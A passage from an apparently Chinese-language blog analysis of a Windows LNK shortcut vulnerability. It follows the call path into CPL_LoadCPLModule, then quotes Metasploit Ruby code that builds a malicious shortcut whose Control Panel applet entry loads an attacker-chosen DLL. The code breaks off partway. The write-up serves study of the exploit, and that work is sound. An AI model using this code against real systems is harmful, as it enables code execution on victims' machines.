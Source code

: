 
在进入`TranslateAlias`后，就会按照我们前面给出的调用栈，最终走到`CControlPanelFolder::_GetPidlFromAppletId`，从而调用`CPL_LoadCPLModule`：

![Screen Shot 2018-11-24 at 2.33.17 PM.png]({{ site.url }}/images/0day/16689B840064512524552A046C25FDE0.png)

这里，我们也可以称其为一路高歌猛进地去加载dll了。

## 3 ExP

借助MSF模块源码，我们能够学习到这类文件形式的ExP的构造方式，同时能够更深刻地理解LNK文件格式。

```ruby
  def generate_link(path)
    vprint_status("Generating LNK file to load: #{path}")
    path << "\x00"
    display_name = datastore['LnkDisplayName'].dup << "\x00" # LNK Display Name
    comment = datastore['LnkComment'].dup << "\x00"
    # Control Panel Applet ItemID with our DLL
    cpl_applet = [
      0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x6a, 0x00, 0x00, 0x00, 0x00,
      0x00, 0x00
    ].pack('C*')
    cpl_applet << [path.length].pack('v')
    cpl_applet << [display_name.length].pack('v')
    cpl_applet << path.unpack('C*').pack('v*')
    cpl_applet << display_name.unpack('C*').pack('v*')
    cpl_applet << comment.unpack('C*').pack('v*')

    # LinkHeader
    ret = [
      0x4c, 0x00, 0x00, 0x00, # HeaderSize, must be 0x0000004C
      0x01, 0x14, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0xc0, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x46, # LinkCLSID, must be 00021401-0000-0000-C000-000000000046
      0x81, 0x00, 0x00, 0x00, # LinkFlags (HasLinkTargetIDList | IsUnicode)
      0x00, 0x00, 0x00, 0x00, # FileAttributes
      0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, # CreationTime
      0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, # AccessTime
      0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, # WriteTime
      0x00, 0x00, 0x00, 0x00, # FileSize
      0x00, 0x00, 0x00, 0x00, # IconIndex
      0x00, 0x00, 0x00, 0x00, # ShowCommand
      0x00, 0x00, # HotKey
      0x00, 0x00, # Reserved1
      0x00, 0x00, 0x00, 0x00, # Reserved2
      0x00, 0x00, 0x00, 0x00  # Reserved3
    ].pack('C*')

    # IDList
    idlist_data = ''
    # ItemID = ItemIDSize (2 bytes) + Data (variable)
    idlist_data << [0x12 + 2].pack('v')
    idlist_data << [
      # All Control Panel Items
      0x1f, 0x80, 0x20, 0x20, 0xec, 0x21, 0xea, 0x3a, 0x69, 0x10, 0xa2, 0xdd, 0x08, 0x00, 0x2b, 0x30,
      0x30, 0x9d
    ].pack('C*')
    # ItemID = ItemIDSize (2 bytes) + Data (variable)
    idlist_data << [cpl_applet.length + 2].pack('v')
    idlist_data << cpl_applet
    idlist_data << [0x00].pack('v') # TerminalID

    # LinkTargetIDList
```